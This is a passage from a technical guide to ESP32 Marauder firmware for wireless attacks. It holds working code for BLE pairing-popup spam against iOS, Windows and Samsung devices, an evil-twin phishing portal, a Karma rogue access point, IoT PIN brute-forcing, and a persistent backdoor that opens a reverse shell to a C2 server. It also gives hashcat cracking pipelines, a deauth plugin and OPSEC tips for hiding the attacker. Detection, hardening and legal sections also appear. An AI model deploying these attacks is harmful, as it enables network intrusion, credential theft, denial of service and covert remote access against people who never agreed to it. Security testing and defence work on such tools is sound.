#### Sour Apple Attack

**Target**: iOS devices
**Effect**: Continuous pairing popup spam

**Implementation**:
```cpp
void sourAppleAttack() {
    // iOS device types
    uint8_t deviceTypes[] = {
        0x01,  // AirPods
        0x02,  // AirPods Pro
        0x03,  // AirPods Max
        0x04,  // Powerbeats
        0x05,  // Powerbeats Pro
        0x06,  // Beats Solo Pro
        0x07,  // Beats Studio Buds
        0x08,  // Beats Flex
        0x09,  // BeatsX
        0x0A,  // Beats Solo3
        0x0B,  // Beats Studio3
        0x0C,  // Beats Studio Pro
        0x0D,  // Beats Fit Pro
        0x10,  // Beats Pill+
        0x11,  // AirTag
        0x12,  // Apple Pencil
    };
    
    for(uint8_t type : deviceTypes) {
        uint8_t packet[31];
        packet[0] = 0x1E;  // Length
        packet[1] = 0xFF;  // Manufacturer specific
        packet[2] = 0x4C;  // Apple
        packet[3] = 0x00;  // Apple
        packet[4] = 0x07;  // Type
        packet[5] = 0x19;  // Length
        packet[6] = 0x07;  // Flags
        packet[7] = type;  // Device type
        packet[8] = 0x55;  // Additional flags
        packet[9] = random(256);  // Random data
        packet[10] = random(256);
        // ... rest of packet
        
        esp_ble_gap_config_adv_data_raw(packet, 31);
        esp_ble_gap_start_advertising(&adv_params);
        delay(100);
        esp_ble_gap_stop_advertising();
    }
}
```

#### SwiftPair Attack (Windows)

**Target**: Windows 10/11 devices
**Effect**: Bluetooth pairing popups

**Implementation**:
```cpp
void swiftPairAttack() {
    // Microsoft Swift Pair advertisement
    uint8_t packet[] = {
        0x06,  // Length
        0xFF,  // Manufacturer specific
        0x06, 0x00,  // Microsoft
        0x03,  // Beacon ID
        0x00,  // Beacon sub type
        0x80,  // Reserved/RSSI
    };
    
    BLEAdvertising *pAdvertising = BLEDevice::getAdvertising();
    BLEAdvertisementData advertisementData;
    advertisementData.setManufacturerData(std::string((char*)packet, sizeof(packet)));
    pAdvertising->setAdvertisementData(advertisementData);
    pAdvertising->start();
}
```

#### Samsung EasySetup Attack

**Target**: Samsung devices
**Effect**: Setup notification spam

**Implementation**:
```cpp
void samsungAttack() {
    uint8_t packet[] = {
        0x1B,  // Length
        0xFF,  // Manufacturer
        0x75, 0x00,  // Samsung
        0x42,  // Type
        0x09, 0x00,  // Device ID
        0x01, 0x02,  // Flags
        // Random device info
        random(256), random(256), random(256)
    };
    
    esp_ble_gap_config_adv_data_raw(packet, sizeof(packet));
    esp_ble_gap_start_advertising(&adv_params);
}
```

---

## GPS & Wardriving Integration

### GPS Module Setup

#### Hardware Connection

**Wiring for NEO-8M**:
```
GPS VCC  → ESP32 3.3V or 5V (check module)
GPS GND  → ESP32 GND
GPS TX   → ESP32 GPIO16 (RX2)
GPS RX   → ESP32 GPIO17 (TX2) [Optional]
GPS PPS  → Not connected (or GPIO for timing)
```

#### Software Configuration

**GPS Library Integration**:
```cpp
#include <TinyGPS++.h>
#include <HardwareSerial.h>

TinyGPSPlus gps;
HardwareSerial GPS(2);

void setupGPS() {
    GPS.begin(9600, SERIAL_8N1, 16, 17);
    Serial.println("GPS initialized");
}

void updateGPS() {
    while(GPS.available() > 0) {
        if(gps.encode(GPS.read())) {
            if(gps.location.isValid()) {
                latitude = gps.location.lat();
                longitude = gps.location.lng();
                altitude = gps.altitude.meters();
                satellites = gps.satellites.value();
                hdop = gps.hdop.hdop();
            }
        }
    }
}
```

### Wardriving Setup

#### Data Collection Format

**KML Format** (Google Earth compatible):
```xml
<?xml version="1.0" encoding="UTF-8"?>
<kml xmlns="http://www.opengis.net/kml/2.2">
<Document>
    <name>WiFi Wardrive</name>
    <Placemark>
        <name>HomeNetwork</name>
        <description>
            BSSID: AA:BB:CC:DD:EE:FF
            Channel: 6
            Encryption: WPA2
            Signal: -45 dBm
            Time: 2025-11-04 14:30:00
        </description>
        <Point>
            <coordinates>-122.4194,37.7749,0</coordinates>
        </Point>
    </Placemark>
</Document>
</kml>
```

**WiGLE CSV Format**:
```csv
WigleWifi-1.4,appRelease=Marauder,model=ESP32,release=0.13.10
MAC,SSID,AuthMode,FirstSeen,Channel,RSSI,Latitude,Longitude,Accuracy,Type
AA:BB:CC:DD:EE:FF,HomeNetwork,[WPA2-PSK],2025-11-04 14:30:00,6,-45,37.7749,-122.4194,10,WIFI
```

**Custom JSON Format**:
```json
{
  "session": "2025-11-04_wardrive",
  "device": "ESP32_Marauder",
  "networks": [
    {
      "timestamp": "2025-11-04T14:30:00Z",
      "ssid": "HomeNetwork",
      "bssid": "AA:BB:CC:DD:EE:FF",
      "channel": 6,
      "encryption": "WPA2",
      "rssi": -45,
      "gps": {
        "lat": 37.7749,
        "lng": -122.4194,
        "alt": 10,
        "accuracy": 2.5,
        "satellites": 8
      }
    }
  ]
}
```

#### Automated Wardriving Mode

**Configuration**:
```cpp
struct WardrivingConfig {
    bool gpsEnabled = true;
    bool autoSave = true;
    uint32_t saveInterval = 300000;  // 5 minutes
    bool channelHop = true;
    uint8_t hopInterval = 250;  // ms
    bool savePCAP = false;
    bool uploadWigle = false;
    String wigleApiKey = "";
};
```

**Wardrive Function**:
```cpp
void wardrive() {
    File logFile = SD.open("/wardrive/session.csv", FILE_APPEND);
    
    while(wardriving) {
        // Update GPS
        updateGPS();
        
        // Scan networks
        int n = WiFi.scanNetworks();
        
        for(int i = 0; i < n; i++) {
            // Log each network with GPS
            logFile.printf("%s,%s,%s,%s,%d,%d,%f,%f,%f\n",
                WiFi.BSSIDstr(i).c_str(),
                WiFi.SSID(i).c_str(),
                getEncryption(WiFi.encryptionType(i)),
                getTimestamp(),
                WiFi.channel(i),
                WiFi.RSSI(i),
                gps.location.lat(),
                gps.location.lng(),
                gps.hdop.hdop()
            );
        }
        
        logFile.flush();
        delay(1000);
    }
    
    logFile.close();
}
```

### Data Visualization

#### Heat Map Generation

**Python Script** (post-processing):
```python
import pandas as pd
import folium
from folium.plugins import HeatMap

# Read wardrive data
df = pd.read_csv('wardrive.csv')

# Create map
m = folium.Map(location=[df['Latitude'].mean(), 
                        df['Longitude'].mean()], 
               zoom_start=14)

# Add heat map
heat_data = [[row['Latitude'], row['Longitude'], row['RSSI']] 
             for idx, row in df.iterrows()]
HeatMap(heat_data).add_to(m)

# Add markers for unique networks
for idx, row in df.drop_duplicates('BSSID').iterrows():
    folium.Marker(
        [row['Latitude'], row['Longitude']],
        popup=f"{row['SSID']}<br>RSSI: {row['RSSI']}<br>Channel: {row['Channel']}",
        icon=folium.Icon(color='red' if row['Encryption'] == 'Open' else 'blue')
    ).add_to(m)

# Save map
m.save('wardrive_map.html')
```

#### Statistics Generation

```python
# Network statistics
print(f"Total Networks: {df['BSSID'].nunique()}")
print(f"Open Networks: {(df['Encryption'] == 'Open').sum()}")
print(f"WEP Networks: {(df['Encryption'] == 'WEP').sum()}")
print(f"WPA2 Networks: {(df['Encryption'] == 'WPA2').sum()}")
print(f"WPA3 Networks: {(df['Encryption'] == 'WPA3').sum()}")

# Channel distribution
channel_dist = df.groupby('Channel').size()
print(f"\nChannel Distribution:\n{channel_dist}")

# Manufacturer analysis
df['Manufacturer'] = df['BSSID'].apply(lambda x: lookup_oui(x[:8]))
manufacturer_dist = df.groupby('Manufacturer').size().sort_values(ascending=False)
print(f"\nTop Manufacturers:\n{manufacturer_dist.head(10)}")
```

---

## Advanced Attack Scenarios

### Scenario 1: Corporate WiFi Assessment

**Objective**: Evaluate corporate wireless security posture

**Phase 1: Reconnaissance**
```
1. Perimeter walk with GPS enabled
   - Map signal leakage outside building
   - Note accessible areas (parking, cafes)
   
2. Channel utilization analysis
   WiFi → Scan → Scan APs
   - Document all corporate SSIDs
   - Note guest networks
   - Identify legacy devices (WEP/WPA)
   
3. Client device profiling
   WiFi → Scan → Scan Stations
   - Identify corporate vs. personal devices
   - Note vulnerable client versions
```

**Phase 2: Vulnerability Assessment**
```
1. PMKID harvesting (authorized networks only)
   WiFi → Sniff → PMKID
   - Test password complexity
   
2. Client isolation testing
   - Create evil twin of guest network
   - Check if clients can communicate
   
3. Rogue AP detection capability
   - Deploy beacon with similar SSID
   - Monitor for security alerts
```

**Phase 3: Reporting**
```
Findings Report Structure:
1. Executive Summary
2. Methodology
3. Findings
   - Critical: WEP networks found
   - High: Weak PSK on corporate WiFi
   - Medium: No rogue AP detection
   - Low: Signal leakage to public areas
4. Recommendations
5. Appendix: Technical details
```

### Scenario 2: Red Team Engagement

**Objective**: Gain initial foothold via wireless vector

**Attack Chain**:

**Step 1: Target Identification**
```bash
# Scan from parking lot
WiFi → Scan → Scan APs
# Look for:
- Printers (often poorly secured)
- IoT devices
- Guest networks
- Legacy equipment
```

**Step 2: Credential Harvesting**
```cpp
// Deploy evil twin with captive portal
void deployPhishingAP() {
    // Clone corporate guest network
    WiFi.softAP("CompanyGuest", "");
    
    // Start web server with branded portal
    server.on("/", handlePortal);
    server.on("/login", handleCredentials);
    server.begin();
    
    // Log all credentials
    logCredentials();
}
```

**Step 3: Network Pivot**
```
1. Capture PMKID/handshake
2. Crack offline with GPU
3. Connect with legitimate credentials
4. Begin internal reconnaissance
```

### Scenario 3: IoT Security Assessment

**Target**: Smart home/building devices

**Discovery Phase**:
```
Bluetooth → Scan → BLE
- Identify IoT devices
- Note firmware versions
- Check for default names

WiFi → Scan → Scan APs
- Look for IoT-specific SSIDs
- Identify device manufacturers
```

**Attack Vectors**:

**1. Default Credentials**:
```cpp
String defaultSSIDs[] = {
    "DIRECT-*",      // WiFi Direct devices
    "SETUP-*",       // Unconfigured devices
    "Amazon*",       // Echo devices
    "Google*",       // Google Home
    "Philips*",      // Hue bridges
    "LIFX*",        // Smart bulbs
};
```

**2. Bluetooth Exploitation**:
```cpp
void iotBluetoothAttack() {
    // Scan for specific IoT services
    scanForService(HOME_AUTOMATION_UUID);
    scanForService(HEALTH_DEVICE_UUID);
    
    // Try common PINs
    String pins[] = {"0000", "1234", "1111", "123456"};
    for(String pin : pins) {
        attemptPairing(target_device, pin);
    }
}
```

### Scenario 4: WiFi Pineapple Emulation

**Objective**: Create multi-purpose attack platform

**Components**:
1. Karma attack (respond to all probes)
2. DNS spoofing
3. Credential harvesting
4. Traffic interception

**Implementation**:
```cpp
class PineappleMode {
private:
    bool karmaActive = false;
    std::vector<String> observedProbes;
    std::vector<String> activeSoftAPs;
    
public:
    void startKarma() {
        // Listen for probe requests
        wifi_promiscuous_enable();
        wifi_set_promiscuous_rx_cb(probeCallback);
        karmaActive = true;
    }
    
    void probeCallback(uint8_t *buf, uint16_t len) {
        // Parse probe request
        String ssid = extractSSID(buf);
        
        if(!ssid.isEmpty() && !isActive(ssid)) {
            // Create soft AP for requested network
            createSoftAP(ssid);
            observedProbes.push_back(ssid);
        }
    }
    
    void createSoftAP(String ssid) {
        // Limit to 4 simultaneous APs (ESP32 limitation)
        if(activeSoftAPs.size() < 4) {
            WiFi.softAP(ssid.c_str(), "");
            activeSoftAPs.push_back(ssid);
            
            // Start captive portal
            dnsServer.start(53, "*", WiFi.softAPIP());
        }
    }
};
```

### Scenario 5: Persistent Backdoor Deployment

**Objective**: Maintain wireless access to target network

**Backdoor Device Setup**:
```cpp
class WirelessBackdoor {
private:
    String targetSSID;
    String targetPassword;
    String c2Server;
    uint32_t beaconInterval = 300000;  // 5 minutes
    
public:
    void initialize() {
        // Connect to target network
        WiFi.begin(targetSSID, targetPassword);
        
        // Hide from network scans
        WiFi.setHostname("android-device");
        WiFi.mode(WIFI_STA);
        
        // Start reverse shell
        startReverseShell();
    }
    
    void startReverseShell() {
        WiFiClient client;
        
        while(true) {
            if(client.connect(c2Server, 4444)) {
                // Execute commands
                while(client.connected()) {
                    String cmd = client.readStringUntil('\n');
                    String result = executeCommand(cmd);
                    client.println(result);
                }
            }
            delay(beaconInterval);
        }
    }
    
    void persistence() {
        // Save config to EEPROM
        EEPROM.write(0, targetSSID);
        EEPROM.write(64, targetPassword);
        EEPROM.write(128, c2Server);
        EEPROM.commit();
    }
};
```

---

## Integration with External Tools

### Wireshark Integration

#### Live Capture via Serial

**Python Bridge Script**:
```python
#!/usr/bin/env python3
import serial
import sys

# Connect to Marauder
ser = serial.Serial('/dev/ttyUSB0', 115200)

# Output PCAP header
sys.stdout.buffer.write(b'\xd4\xc3\xb2\xa1')  # Magic
sys.stdout.buffer.write(b'\x02\x00\x04\x00')  # Version
sys.stdout.buffer.write(b'\x00\x00\x00\x00')  # Timezone
sys.stdout.buffer.write(b'\x00\x00\x00\x00')  # Accuracy
sys.stdout.buffer.write(b'\xff\xff\x00\x00')  # Snaplen
sys.stdout.buffer.write(b'\x69\x00\x00\x00')  # LinkType (802.11)

# Stream packets
while True:
    line = ser.readline()
    if line.startswith(b'PACKET:'):
        packet_data = bytes.fromhex(line[7:].decode().strip())
        
        # Write packet header
        timestamp = int(time.time())
        sys.stdout.buffer.write(timestamp.to_bytes(4, 'little'))
        sys.stdout.buffer.write(b'\x00\x00\x00\x00')  # Microseconds
        sys.stdout.buffer.write(len(packet_data).to_bytes(4, 'little'))
        sys.stdout.buffer.write(len(packet_data).to_bytes(4, 'little'))
        
        # Write packet data
        sys.stdout.buffer.write(packet_data)
        sys.stdout.buffer.flush()
```

**Usage**:
```bash
# Pipe to Wireshark
python3 marauder_bridge.py | wireshark -k -i -

# Save to file
python3 marauder_bridge.py > capture.pcap
```

### Hashcat Integration

#### PMKID Processing

**Conversion Script**:
```bash
#!/bin/bash
# Convert Marauder PMKID output to hashcat format

input_file=$1
output_file=${2:-hashcat_pmkids.22000}

while IFS= read -r line; do
    # Parse Marauder format
    # Format: SSID|BSSID|PMKID
    ssid=$(echo $line | cut -d'|' -f1)
    bssid=$(echo $line | cut -d'|' -f2 | tr -d ':')
    pmkid=$(echo $line | cut -d'|' -f3)
    
    # Convert SSID to hex
    ssid_hex=$(echo -n "$ssid" | xxd -p)
    
    # Output hashcat format
    echo "WPA*02*${pmkid}*${bssid}*${bssid}*${ssid_hex}***" >> $output_file
done < $input_file

echo "Converted $(wc -l < $output_file) PMKIDs to $output_file"
```

**Cracking Pipeline**:
```bash
# Basic wordlist attack
hashcat -m 22000 pmkids.22000 wordlist.txt

# Rule-based attack
hashcat -m 22000 pmkids.22000 wordlist.txt -r rules/best64.rule

# Mask attack for phone numbers
hashcat -m 22000 pmkids.22000 -a 3 ?d?d?d?d?d?d?d?d?d?d

# Combination attack
hashcat -m 22000 pmkids.22000 -a 1 wordlist1.txt wordlist2.txt
```

### Kismet Integration

#### Marauder as Kismet Drone

**Configuration**:
```cpp
// Marauder firmware modification
void kismetMode() {
    // Output Kismet drone protocol
    Serial.println("*KISMET: 0.0.0");
    
    while(true) {
        int n = WiFi.scanNetworks();
        
        for(int i = 0; i < n; i++) {
            // Format: *NETWORK: bssid,type,ssid,channel,encryption,signal
            Serial.printf("*NETWORK: %s,AP,%s,%d,%s,%d\n",
                WiFi.BSSIDstr(i).c_str(),
                WiFi.SSID(i).c_str(),
                WiFi.channel(i),
                getEncryption(WiFi.encryptionType(i)),
                WiFi.RSSI(i)
            );
        }
        
        delay(1000);
    }
}
```

**Kismet Configuration**:
```ini
# kismet_drone.conf
source=serial:device=/dev/ttyUSB0,baudrate=115200,name=Marauder
```

### Integration with Pwnagotchi

#### Marauder as Pwnagotchi Plugin

**Plugin Code** (marauder.py):
```python
import serial
import json
import logging

class Marauder:
    def __init__(self, port='/dev/ttyUSB0', baud=115200):
        self.ser = serial.Serial(port, baud)
        self.logger = logging.getLogger(__name__)
        
    def deauth_target(self, bssid, channel):
        """Send deauth command to Marauder"""
        cmd = f"DEAUTH|{bssid}|{channel}\n"
        self.ser.write(cmd.encode())
        return True
    
    def scan_networks(self):
        """Get network list from Marauder"""
        self.ser.write(b"SCAN\n")
        response = self.ser.readline().decode()
        return json.loads(response)
    
    def capture_pmkid(self, target):
        """Trigger PMKID capture"""
        cmd = f"PMKID|{target['bssid']}|{target['channel']}\n"
        self.ser.write(cmd.encode())
        
        # Wait for response
        response = self.ser.readline().decode()
        if "SUCCESS" in response:
            return response.split("|")[1]  # Return PMKID
        return None

# Pwnagotchi plugin hooks
def on_loaded():
    global marauder
    marauder = Marauder()
    logging.info("Marauder plugin loaded")

def on_wifi_update(agent, access_points):
    """Use Marauder for enhanced scanning"""
    networks = marauder.scan_networks()
    # Merge results with Pwnagotchi's scan
    return access_points + networks

def on_deauthentication(agent, target):
    """Use Marauder for deauth attacks"""
    marauder.deauth_target(target['mac'], target['channel'])
```

### ESP32-to-ESP32 Mesh Network

#### Distributed Marauder Network

**Mesh Configuration**:
```cpp
#include <painlessMesh.h>

class MarauderMesh {
private:
    painlessMesh mesh;
    String meshSSID = "MarauderMesh";
    String meshPassword = "SecurePassword123";
    uint16_t meshPort = 5555;
    
public:
    void setupMesh() {
        mesh.setDebugMsgTypes(ERROR | STARTUP);
        mesh.init(meshSSID, meshPassword, meshPort);
        mesh.onReceive([](uint32_t from, String &msg) {
            handleMeshMessage(from, msg);
        });
    }
    
    void shareIntelligence(String data) {
        // Share captured data with all nodes
        DynamicJsonDocument doc(1024);
        doc["type"] = "intelligence";
        doc["data"] = data;
        doc["timestamp"] = millis();
        
        String msg;
        serializeJson(doc, msg);
        mesh.sendBroadcast(msg);
    }
    
    void coordinatedAttack(String target, String attackType) {
        // Coordinate attack across multiple nodes
        DynamicJsonDocument doc(256);
        doc["type"] = "attack";
        doc["target"] = target;
        doc["attack"] = attackType;
        
        String msg;
        serializeJson(doc, msg);
        mesh.sendBroadcast(msg);
    }
};
```

---

## Detection & Defense Strategies

### Detecting Marauder Attacks

#### Wireless IDS Signatures

**Deauth Attack Detection**:
```python
# Snort rule for deauth flood
alert wifi any any -> any any (msg:"WiFi Deauth Flood Detected"; 
    wifi.type:0; wifi.subtype:12; 
    detection_filter:track by_src, count 10, seconds 1; 
    sid:1000001; rev:1;)
```

**Beacon Flood Detection**:
```python
# Python detection script
import scapy.all as scapy

def detect_beacon_flood(packet):
    if packet.haslayer(scapy.Dot11Beacon):
        # Track unique SSIDs per MAC
        if packet.addr2 not in beacon_tracker:
            beacon_tracker[packet.addr2] = set()
        
        beacon_tracker[packet.addr2].add(packet.info)
        
        # Alert if single MAC has many SSIDs
        if len(beacon_tracker[packet.addr2]) > 10:
            print(f"ALERT: Beacon flood from {packet.addr2}")
            print(f"SSIDs: {beacon_tracker[packet.addr2]}")

# Start monitoring
scapy.sniff(iface="mon0", prn=detect_beacon_flood)
```

#### Behavioral Indicators

**Suspicious Patterns**:
1. Rapid channel hopping
2. Multiple SSIDs from single MAC
3. Malformed packets
4. Unusual frame sequences
5. High rate of management frames

**Detection Script**:
```python
class MarauderDetector:
    def __init__(self):
        self.suspicious_macs = set()
        self.packet_rates = {}
        
    def analyze_packet(self, packet):
        source = packet.addr2
        
        # Check packet rate
        if source not in self.packet_rates:
            self.packet_rates[source] = []
        
        self.packet_rates[source].append(time.time())
        
        # Clean old entries
        cutoff = time.time() - 10
        self.packet_rates[source] = [t for t in self.packet_rates[source] if t > cutoff]
        
        # Detect high packet rate
        if len(self.packet_rates[source]) > 100:
            self.flag_suspicious(source, "High packet rate")
        
        # Check for spoofed MACs
        if self.is_spoofed_mac(source):
            self.flag_suspicious(source, "Possibly spoofed MAC")
        
        # Check for known Marauder patterns
        if self.is_marauder_pattern(packet):
            self.flag_suspicious(source, "Marauder signature detected")
    
    def is_spoofed_mac(self, mac):
        # Check for common spoofing indicators
        # Locally administered bit set
        if int(mac.split(':')[0], 16) & 0x02:
            return True
        # All zeros or all ones
        if mac in ['00:00:00:00:00:00', 'FF:FF:FF:FF:FF:FF']:
            return True
        return False
    
    def is_marauder_pattern(self, packet):
        # Known Marauder behaviors
        if packet.haslayer(scapy.Dot11Deauth):
            # Check reason code patterns
            if packet.reason in [1, 2, 3]:  # Common Marauder codes
                return True
        return False
```

### Defensive Measures

#### Access Point Hardening

**802.11w (Management Frame Protection)**:
```bash
# hostapd configuration
ieee80211w=2  # Required
pmf=2  # Protected Management Frames

# Cisco configuration
config advanced eap identity-request-timeout 120
config advanced 802.11w enable
config advanced 802.11w required
```

**Client Isolation**:
```bash
# Prevent client-to-client communication
ap_isolate=1  # hostapd
client-isolation  # Cisco/Aruba
```

#### Network Monitoring

**Open Source Solutions**:

**Kismet Configuration**:
```ini
# kismet.conf for Marauder detection
alertbacklog=5000
alertrate=50

# Alert on excessive deauth
alert=DEAUTHFLOOD,Deauthentication flood detected,10/min

# Alert on beacon flood
alert=BEACONFLOOD,Excessive beacons from single source,20/min

# Alert on probe flood
alert=PROBEFLOOD,Probe request flood detected,50/min
```

**WIDS with Raspberry Pi**:
```python
#!/usr/bin/env python3
# Wireless IDS on Raspberry Pi

import subprocess
import re
import time
import smtplib

class WirelessIDS:
    def __init__(self, interface='wlan0'):
        self.interface = interface
        self.alerts = []
        self.start_monitor_mode()
        
    def start_monitor_mode(self):
        subprocess.run(['airmon-ng', 'start', self.interface])
        self.monitor_interface = f"{self.interface}mon"
        
    def detect_attacks(self):
        # Use tshark to capture
        cmd = f"tshark -i {self.monitor_interface} -Y 'wlan.fc.type_subtype == 0x0c' -T fields -e wlan.sa -e wlan.da"
        
        proc = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE)
        deauth_count = {}
        
        for line in proc.stdout:
            parts = line.decode().strip().split('\t')
            if len(parts) == 2:
                source, dest = parts
                
                if source not in deauth_count:
                    deauth_count[source] = 0
                deauth_count[source] += 1
                
                # Alert threshold
                if deauth_count[source] > 10:
                    self.send_alert(f"Deauth attack from {source}")
                    deauth_count[source] = 0
    
    def send_alert(self, message):
        print(f"[ALERT] {message}")
        # Send email/SMS/Slack notification
        # Log to SIEM
```

#### Client Protection

**Windows Protection**:
```powershell
# Disable automatic connection to open networks
netsh wlan set autoconfig enabled=no interface="Wi-Fi"

# Only connect to specific networks
netsh wlan add filter permission=allow ssid="TrustedNetwork" networktype=infrastructure
netsh wlan add filter permission=block ssid="*" networktype=adhoc
```

**Linux Protection**:
```bash
# NetworkManager configuration
# /etc/NetworkManager/NetworkManager.conf
[device]
wifi.scan-rand-mac-address=yes

[connection-mac-randomization]
wifi.cloned-mac-address=random
```

**macOS Protection**:
```bash
# Disable WiFi when not needed
networksetup -setairportpower en0 off

# Forget unnecessary networks
networksetup -removepreferredwirelessnetwork en0 "UntrustedNetwork"

# Enable MAC randomization
sudo defaults write /Library/Preferences/SystemConfiguration/com.apple.wifi.plist DisableAssociationMACRandomization -bool NO
```

### Incident Response

#### Attack Detection Workflow



#### Response Procedures

**Immediate Actions**:
1. Document attack parameters
2. Capture traffic samples
3. Isolate affected networks
4. Enable additional monitoring

**Investigation**:
```bash
# Locate attacker
# Using signal strength triangulation
iwlist wlan0 scanning | grep -A 5 "AA:BB:CC:DD:EE:FF"

# Check for persistence
find /var/log -name "*.log" -exec grep -l "AA:BB:CC:DD:EE:FF" {} \;

# Timeline reconstruction
grep "AA:BB:CC:DD:EE:FF" /var/log/syslog | head -n 1
```

---

## Legal Framework & OPSEC

### Legal Considerations

#### Authorization Requirements

**Written Authorization Template**:
```
WIRELESS NETWORK PENETRATION TESTING AUTHORIZATION

This agreement authorizes [Tester Name] to perform wireless security 
testing on the following networks and systems:

Authorized Networks:
- SSID: [Network Name]
- BSSID: [MAC Address]
- Location: [Physical Address]
- Testing Window: [Start Date/Time] to [End Date/Time]

Authorized Activities:
☐ Passive monitoring and scanning
☐ Active scanning and enumeration
☐ Deauthentication attacks (limited duration)
☐ Evil twin/Captive portal deployment
☐ PMKID/Handshake capture
☐ Password cracking (offline only)
☐ Bluetooth scanning and testing

Prohibited Activities:
☐ Testing networks not explicitly listed
☐ Denial of Service beyond 60 seconds
☐ Data exfiltration or modification
☐ Testing during business hours (if applicable)
☐ Physical damage to equipment

Emergency Contact:
Name: [Contact Name]
Phone: [Phone Number]
Email: [Email Address]

By signing below, the network owner acknowledges understanding and 
authorizes the described testing:

Owner Signature: _________________ Date: _________
Tester Signature: ________________ Date: _________
```

#### Legal Boundaries by Country

**United States**:
- Computer Fraud and Abuse Act (CFAA)
- Electronic Communications Privacy Act (ECPA)
- State-specific laws vary

**European Union**:
- GDPR implications for captured data
- NIS Directive requirements
- Country-specific implementations

**Key Principles**:
1. **Never** test without written authorization
2. **Never** exceed scope of authorization
3. **Never** retain captured personal data
4. **Always** operate within legal boundaries
5. **Always** maintain detailed logs

### Operational Security (OPSEC)

#### Identity Protection

**MAC Address Randomization**:
```cpp
void randomizeMAC() {
    uint8_t mac[6];
    // Keep OUI realistic
    mac[0] = 0x00;
    mac[1] = 0x16;
    mac[2] = 0x3E;  // Xen OUI
    // Randomize NIC
    mac[3] = random(256);
    mac[4] = random(256);
    mac[5] = random(256);
    
    esp_wifi_set_mac(WIFI_IF_STA, mac);
}
```

**Device Concealment**:
```cpp
// Appear as common device
String deviceNames[] = {
    "android-device",
    "iPhone",
    "DESKTOP-" + randomString(7),
    "raspberrypi",
    "ESP_" + randomHex(6)
};

WiFi.hostname(deviceNames[random(5)]);
```

#### Evidence Handling

**Data Sanitization**:
```bash
# Secure deletion of captures
shred -vfz -n 3 capture.pcap

# Encrypted storage
gpg --encrypt --recipient your@email.com sensitive_data.txt

# Hashing for integrity
sha256sum captures/* > checksums.txt
```

**Chain of Custody**:
```
Evidence Log Entry:
Date/Time: 2025-11-04 15:00:00
File: capture_20251104.pcap
Hash: SHA256:abc123...
Collected By: [Name]
Location: [GPS Coordinates]
Transfer To: [Recipient]
Purpose: [Testing/Analysis]
```

### Responsible Disclosure

#### Vulnerability Reporting Template

```
Subject: Security Vulnerability in [Product/Network]

Dear [Security Team],

I am writing to report a security vulnerability discovered during 
authorized security testing.

VULNERABILITY DETAILS:
- Type: [WiFi/Bluetooth/Implementation]
- Severity: [Critical/High/Medium/Low]
- CVSS Score: [If applicable]
- Affected Systems: [List]

TECHNICAL DETAILS:
[Detailed technical explanation]

PROOF OF CONCEPT:
[Steps to reproduce]

IMPACT:
[Potential consequences]

REMEDIATION:
[Suggested fixes]

TIMELINE:
- Discovery: [Date]
- Notification: [Date]
- Proposed Disclosure: [Date + 90 days]

Please acknowledge receipt of this report within 48 hours.

Regards,
[Your Name]
[Contact Information]
```

---

## Troubleshooting & Optimization

### Common Issues and Solutions

#### Hardware Problems

**Issue: ESP32 won't boot**
```bash
# Solution 1: Erase and reflash
esptool.py --port /dev/ttyUSB0 erase_flash
esptool.py --port /dev/ttyUSB0 write_flash 0x10000 marauder.bin

# Solution 2: Check power supply
# Measure 3.3V rail, should be stable
# Use external power if USB insufficient

# Solution 3: Boot mode jumper
# Short GPIO0 to GND during reset
```

**Issue: Display not working**
```cpp
// Check I2C/SPI connections
void testDisplay() {
    Wire.begin(21, 22);  // SDA, SCL
    Wire.beginTransmission(0x3C);  // OLED address
    if(Wire.endTransmission() == 0) {
        Serial.println("Display found");
    } else {
        Serial.println("Display not found - check wiring");
    }
}
```

**Issue: SD card errors**
```cpp
// Fix SD card issues
void fixSDCard() {
    // Try different SPI speeds
    if(!SD.begin(5, SPI, 4000000)) {  // 4MHz
        Serial.println("Trying slower speed");
        if(!SD.begin(5, SPI, 1000000)) {  // 1MHz
            Serial.println("SD card failed");
        }
    }
    
    // Check file system
    if(!SD.exists("/")) {
        Serial.println("Format SD card as FAT32");
    }
}
```

#### Software Problems

**Issue: Compilation errors**
```bash
# Missing libraries
arduino-cli lib install "LinkedList"
arduino-cli lib install "ArduinoJson"
arduino-cli lib install "TFT_eSPI"

# Wrong board selected
arduino-cli board list
arduino-cli compile --fqbn esp32:esp32:esp32 ESP32Marauder.ino

# Partition too small
# Use "Minimal SPIFFS" partition scheme
```

**Issue: WiFi scanning returns no results**
```cpp
// Fix WiFi initialization
void fixWiFi() {
    WiFi.mode(WIFI_STA);
    WiFi.disconnect();
    delay(100);
    
    // Force channel
    esp_wifi_set_channel(6, WIFI_SECOND_CHAN_NONE);
    
    // Increase scan time
    wifi_scan_config_t config;
    config.scan_time.active.min = 120;
    config.scan_time.active.max = 120;
    esp_wifi_scan_start(&config, false);
}
```

### Performance Optimization

#### Memory Management

```cpp
// Monitor memory usage
void printMemory() {
    Serial.printf("Free Heap: %d\n", ESP.getFreeHeap());
    Serial.printf("Minimum Free: %d\n", ESP.getMinFreeHeap());
    Serial.printf("Max Alloc: %d\n", ESP.getMaxAllocHeap());
    
    #ifdef BOARD_HAS_PSRAM
    Serial.printf("Free PSRAM: %d\n", ESP.getFreePsram());
    #endif
}

// Optimize memory usage
void optimizeMemory() {
    // Clear unused vectors
    ap_list.shrink_to_fit();
    station_list.shrink_to_fit();
    
    // Reduce buffer sizes
    #define PACKET_BUFFER_SIZE 50  // Was 100
    #define MAX_APS 50  // Was 100
    
    // Use PSRAM if available
    #ifdef BOARD_HAS_PSRAM
    void* buffer = ps_malloc(1024);
    #else
    void* buffer = malloc(1024);
    #endif
}
```

#### Power Optimization

```cpp
// Battery life improvements
void powerSave() {
    // Reduce CPU frequency when idle
    setCpuFrequencyMhz(80);  // From 240MHz
    
    // Disable unused peripherals
    esp_bluedroid_disable();
    esp_bt_controller_disable();
    
    // Reduce WiFi TX power
    esp_wifi_set_max_tx_power(50);  // 12.5dBm instead of 20dBm
    
    // Sleep between operations
    esp_sleep_enable_timer_wakeup(1000000);  // 1 second
    esp_light_sleep_start();
}
```

#### Speed Optimization

```cpp
// Faster scanning
void fastScan() {
    // Parallel scanning on multiple channels
    xTaskCreatePinnedToCore(
        scanTask,    // Task function
        "scan2.4",   // Name
        10000,       // Stack size
        (void*)1,    // Parameters (channel)
        1,           // Priority
        NULL,        // Handle
        0            // Core
    );
    
    // Use both cores
    xTaskCreatePinnedToCore(
        scanTask,
        "scan5",
        10000,
        (void*)36,   // 5GHz channel
        1,
        NULL,
        1            // Core 1
    );
}

// Optimized packet injection
void fastInject() {
    // Disable automatic retransmission
